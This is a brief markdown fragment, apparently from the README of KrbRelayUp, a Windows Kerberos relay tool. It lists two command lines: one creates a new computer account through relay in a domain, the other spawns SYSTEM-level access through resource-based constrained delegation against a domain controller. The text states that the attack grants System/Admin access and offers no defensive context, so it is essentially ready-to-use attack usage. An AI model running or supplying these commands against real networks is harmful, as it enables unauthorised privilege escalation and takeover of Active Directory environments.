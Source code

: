 # KrbRelayUp

 - .\KrbRelayUp.exe relay -Domain DOMAIN -CreateNewComputerAccount -ComputerName COMPUTER$ -ComputerPassword PASSWORD

 - .\KrbRelayUp.exe spawn -m rbcd -d DOMAIN -dc DC -cn COMPUTER_NAME -cp COMPUTER_PASS

## This attack grants System/Admin access
